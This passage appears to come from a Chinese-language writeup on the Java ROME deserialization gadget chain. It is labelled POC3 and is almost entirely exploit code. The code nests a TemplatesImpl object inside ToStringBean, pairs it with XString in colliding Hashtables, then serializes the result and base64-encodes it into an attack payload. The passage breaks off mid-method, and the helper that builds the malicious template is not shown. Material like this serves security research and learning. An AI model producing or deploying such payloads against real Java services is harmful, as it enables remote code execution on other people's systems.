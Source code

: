 ```
        }
        return field;
    }
}
```

## POC3

通过XString的toString方法

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.Hashtable;


public class Rome {

    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = GetTemplatesImpl.getTemplatesImpl();

        XString xString = new XString("");
        ToStringBean toStringBean = new ToStringBean(Templates.class,templates);

        Hashtable hashtable1 = new Hashtable();
        Hashtable hashtable2 = new Hashtable();
        hashtable1.put("aa",toStringBean);
        hashtable1.put("bB",xString);
        hashtable2.put("aa",xString);
        hashtable2.put("bB",toStringBean);
        Hashtable hashtable = new Hashtable();
        hashtable.put(hashtable1,"");
        hashtable.put(hashtable2,"");


        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashtable);
        System.out.println(new String(Base64.getEncoder().encode(byteArrayOutputStream.toByteArray())));

        System.out.println(new String(Base64.getEncoder().encode(byteArrayOutputStream.toByteArray())).length());
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
```